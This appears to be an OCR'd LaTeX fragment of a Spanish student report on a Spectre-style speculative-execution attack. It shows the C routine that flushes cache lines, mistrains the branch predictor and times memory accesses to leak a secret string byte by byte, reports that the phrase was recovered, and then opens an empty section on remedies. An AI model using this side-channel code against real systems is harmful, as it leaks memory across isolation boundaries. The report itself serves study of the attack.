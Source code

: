 \documentclass[paper=a4, fontsize=11pt]{scrartcl} %
\begin{document}
\begin{lstlisting}[frame=single, style=myCustomStyle]

void acceso_virtual(unsigned int datos[][LEVELS],
                    unsigned int * timing){
    int d,i,j,u,nj;
    unsigned int hits[BYTE];
    for(d=0;d<STR_SIZE;d++){
        for(j=0;j<BYTE;j++){
            hits[j] = 0;
            _mm_clflush(&array2[j*CACHE_LINE_SIZE]);
        }
        _mm_mfence();
        _mm_lfence();

        for(i=0;i<TRIES;i++){
            misstrain(d);
            for(j=0;j<BYTE;j++){
                //int nj = ord[j]; 
                nj = rand()%BYTE;
                int b = time(&array2[nj*CACHE_LINE_SIZE]);
                hits[nj] += (b< THRESSHOLD);
                _mm_clflush(&array2[nj*CACHE_LINE_SIZE]);
                //datos[nj] += b;
            }
    }
        for(u=0;u<LEVELS;u++) datos[d][u] = 1;
        for(j=1;j<BYTE-1;j++) 
            datos[d][0] = 
                hits[datos[d][0]]<hits[j] ? j : datos[d][0];
        timing[d] = hits[datos[d][0]];
        timing[STR_SIZE] = aux;
        for(u=1;u<LEVELS;u++) for(j=1;j<BYTE-1;j++) 
            datos[d][u] = (hits[datos[d][u]]<hits[j] &&
                     j != datos[d][u-1]) ? j: datos[d][u];
        
    }

}


\end{lstlisting}


\subsection{Resultado}

Como se observa el la imagen, se consigue sacar la frase al completo, aunque es necesario correr un par de veces el código para que no falle una o dos letras. Aun así es lo suficientemente robusto como para que estas aparezcan en segundo puesto.


\includegraphics[width=0.75\columnwidth]{foto} 

Otros datos incluidos son el numero de intentos y valor del contador de cada char.

\section{Remedios\cite{lwn}}
\end{document}
